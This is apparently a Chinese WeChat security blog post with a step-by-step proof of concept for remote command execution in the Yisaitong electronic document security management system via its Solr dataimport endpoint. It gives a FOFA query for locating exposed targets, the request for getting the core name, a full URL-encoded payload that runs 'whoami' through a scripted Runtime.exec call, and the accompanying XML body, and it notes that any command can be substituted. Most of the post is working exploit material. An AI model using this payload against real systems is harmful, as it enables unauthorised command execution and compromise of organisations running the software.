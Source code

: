 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PXf4_1FneXhnVCXPNPDuhA)

**1、描述**

  

亿赛通 电子文档安全管理系统 dataimport 存在远程命令执行漏洞，攻击者通过构造特定的请求可执行任意命令

**2、影响范围**

  

亿赛通电子文档安全管理系统

  

  

  

  

  

**3、FOFA**

  

title="电子文档安全管理系统"  

  

  

  

  

  

登录界面如下：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCeWMvs0osES8E7uPAF7o6feXJ211gaPOMvjTjeodMDUn9j5vgj2YA8xuoicWXyK369rsibHO1TYPdQ/640?wx_fmt=png)

首先我们需要访问以下 URL 来获取一个 name 的值：

```
/solr/admin/cores
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCeWMvs0osES8E7uPAF7o6faGXCTP5PRDdtr6B9eeorC8xe6ibXSvT3HAtKSu1mMia1QYqvZA35Ioow/640?wx_fmt=png)

然后我们需要打开三剑客之一的 BURP

使用 POST 请求，请求以下 URL：  

```
/solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20
```

其中开头的 / sorl/**/dataimport 之中的 * 为刚刚的 name 值。

仔细查看后面的代码，我这里填写的 whoami，在那里替换成其他命令即可。  

然后再填写 POST 一个 xml 文件流，为：

```
<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>
```

我这里只为测试，执行 whoami 命令

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibCeWMvs0osES8E7uPAF7o6fL9TE28SiboJ0Uib2YbGf2tgJR1rxGBft5M4falapbdibLBMoYnyrbs0jA/640?wx_fmt=png)

可以看到返回了系统权限，NT 也就是 windows 系统。  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3pKe8enqDsSibzOy1GzZBhppv9xkibfYXeOiaiaA8qRV6QNITSsAebXibwSVQnwRib6a2T4M8Xfn3MTwTv1PNnsWKoaw/640?wx_fmt=png)

点个在看你最好看